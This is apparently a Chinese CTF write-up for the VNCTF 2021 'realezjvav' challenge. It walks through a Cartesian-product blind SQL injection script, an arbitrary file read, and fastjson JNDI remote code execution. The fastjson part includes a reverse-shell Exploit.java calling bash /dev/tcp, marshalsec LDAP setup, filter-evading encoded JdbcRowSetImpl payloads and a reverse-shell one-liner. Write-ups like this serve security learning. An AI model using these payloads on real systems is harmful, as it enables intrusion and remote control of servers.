

还是太菜了，没做出来几题

# [VNCTF 2021]realezjvav

## 笛卡尔积注入

首页是一个登录页面



查看源码并没有发现什么提示，robots.txt也没发现。

题目有提示


基本就是注入题了

尝试几个弱口令之后发现，密码错误毫无提示。

在密码栏输入’单引号报错500，输入' #正常。

**只有密码框可注入**

证明是用单引号闭合，用sqlmap跑无结果。

登录框注入点应该是where之后

无回显注入方式就只剩时间盲注了

但是sleep()  benchemark()被过滤了


看了wp可以用笛卡尔积注入

```mysql
-1' and if((select table_name from information_schema.tables where table_schema=database()),(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),1) #
```

利用笛卡尔积注入跑脚本

```python
import requests
import time
url="http://dd611384-776f-48d8-a1ef-2eb62ee46c19.node3.buuoj.cn/user/login"
flag=''
for i in range(3,50):
    f1=flag
    top=127
    low=33
    while low<=top:
        time.sleep(8)
        mid=(top+low)//2
        # p1="admin'/**/and/**/if(ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='user'),{},1))={},1,0)/**/and/**/(SELECT/**/count(*)/**/FROM/**/information_schema.tables/**/A,/**/information_schema.tables/**/B,information_schema.tables/**/C)#".format(i,mid)
        # p2="admin'/**/and/**/if(ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='user'),{},1))>{},1,0)/**/and/**/(SELECT/**/count(*)/**/FROM/**/information_schema.tables/**/A,/**/information_schema.tables/**/B,information_schema.tables/**/C)#".format(i,mid)
        p1="1' or if(ascii(substr((select table_name from information_schema.tables where table_schema=database()),{},1))={},(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0)#".format(i,mid)
        p2="1' or if(ascii(substr((select table_name from information_schema.tables where table_schema=database()),{},1))>{},(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0)#".format(i,mid)
        data1={'username':'admin','password':p1}
        data2={'username':'admin','password':p2}
        try:
            print(i,mid)
            r1=requests.post(url,data=data1,timeout=2)
        except requests.exceptions.ReadTimeout as e:
            flag+=chr(mid)
            print(flag)
            break
        except Exception as e:
            pass
        else:
            try:
                r2=requests.post(url,data=data2,timeout=2)
            except requests.exceptions.ReadTimeout as e:
                low=mid+1
            except Exception as e:
                pass
            else:
                top=mid-1
    if flag==f1:
        break

```

buu跑的容易崩

只能一部分一部分慢慢跑。

最后爆破出密码是

no_0ne_kn0w_th1s

账号根据提示是admin


登录进去是一个显示图片的玩意

查看源码可以看到这个东西的源码

请求图片时存在任意文件读取

##  springboot

springboot项目的pom.xml存放了外部依赖

可以看到用了阿里的fastjson，版本1.2.27，刚好可以被利用

## fastjson

https://github.com/CaijiOrz/fastjson-1.2.47-RCE


刚好那个东西的请求方式也是json格式


就可以利用

### 编译exploit.java

```java
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"});
        }catch(Exception e){ 
            e.printStackTrace();
        }   
    }   
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }   
}
```

**ip port为反弹shell监听端口**


### 监听反弹shell

监听一个未被占用端口即可

```
nc -lvp 24564
```


### web服务

把GitHub项目中的marshalsec-0.0.3-SNAPSHOT-all.jar文件和Exploit.java放在同一目录下

在marshalsec-0.0.3-SNAPSHOT-all.jar文件和Exploit.java的文件目录下开启web服务

```
python3 -m http.server --bind 0.0.0.0 8888
```


### rmi服务

最后开启远程方法调用rmi服务

安装rmi服务https://github.com/mbechler/marshalsec

maven构建项目maven构建项目**（得先安装maven）**

```
mvn clean package -DskipTests
```


### ldap服务

java需要用java8

启动ldap服务

```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ip:port/#Exploit" 1389
```

ip和port为web服务开启的端口，1389为ldap开启的端口，根据自己修改


### 提交参数运行exp

接下来利用修改传入参数运行exp

```
param={"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:1389/Exploit","autoCommit":true}}}
```

但是会被过滤

![[VNCTF 2021]realezjvav](9-1615858492.png)


Unicode编码一下

```
{"name":{"\u0040\u0074\u0079\u0070\u0065":"java.lang.Class","val":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","dataSourceName":"ldap://ip:port/Exploit","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}}
```

或者

```
roleJson={"name":{"x40x74x79x70x65":"java.lang.Class","val":"x63x6fx6dx2ex73x75x6ex2ex72x6fx77x73x65x74x2ex4ax64x62x63x52x6fx77x53x65x74x49x6dx70x6c"},"x":{"x40x74x79x70x65":"x63x6fx6dx2ex73x75x6ex2ex72x6fx77x73x65x74x2ex4ax64x62x63x52x6fx77x53x65x74x49x6dx70x6c","dataSourceName":"ldap://1.1.1.1:1389/Exploit","x61x75x74x6fx43x6fx6dx6dx69x74":true}}
```

要把ipport改成运行ldap服务的端口


LDAP将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行（所以ldap运行要填写web服务端口）

你的LDAP服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL（所以exploit要填写监听shell端口）


最后cat /flag*


参考链接

sql注入总结

https://blog.csdn.net/ga421739102/article/details/102817334

fastjson利用

https://github.com/CaijiOrz/fastjson-1.2.47-RCE

wp

https://blog.csdn.net/SopRomeo/article/details/114945759

### 快速fastjson

https://github.com/mbechler/marshalsec

只需要在服务器上

```
java -cp fastjson_tool.jar fastjson.HRMIServer 0.0.0.0 9999 "bash=bash -i >&/dev/tcp/x.x.x.x/8765 0>&1"
```

